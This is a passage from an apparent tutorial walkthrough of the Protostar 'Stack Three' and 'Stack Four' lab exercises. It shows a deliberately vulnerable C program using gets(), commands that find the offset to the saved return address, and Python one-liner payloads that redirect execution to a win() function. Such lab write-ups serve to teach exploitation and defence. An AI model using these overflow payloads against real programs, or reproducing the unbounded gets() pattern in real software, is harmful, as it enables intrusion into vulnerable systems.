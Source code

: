Using the above command we can find that `win` is at address "0x08048424". So here is our final payload:

```html
python -c "print 'A' * 64 + '\x24\x84\x04\x08'" | ./stack3
```

### Fifth Exercise "Stack Four"

In this new exercise we will see together how a buffer overflow can change code execution even when there's no variable to overwrite. First let's see the source code of our challenge:

```html
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    char buffer[64];
    gets(buffer);
}
```

We will now target the return address of the main `eip` function. This address is stored on the stack at the beginning of the frame. The main point now is to find out how far we will have to go to overflow this variable. In order to do it, we will try to overflowing the buffer and increase the value until we get a segmentation error message.

```html
cd /opt/protostar/bin
(python -c "print 'A' * 64") | ./stack4
(python -c "print 'A' * 68") | ./stack4
(python -c "print 'A' * 72") | ./stack4
(python -c "print 'A' * 76") | ./stack4
```

We did increase by 4 each time and we got the "Segmentation fault" error message when we did try to put a string of 76 characters. Considering this, we can say that after 76 bytes is the area that overwrites `eip`, so we will need 76 "A" and the address of `win` in Little Endian:

```html
cd /opt/protostar/bin
objdump -x stack4 | grep "win"
```

Now that we got the `win` address, we just need to use Python to print 76 "A" then the address in Little Endian as the below example:

```html
(python -c "print 'A' * 76 + '\xf4\x83\x04\x08'") | ./stack4
```
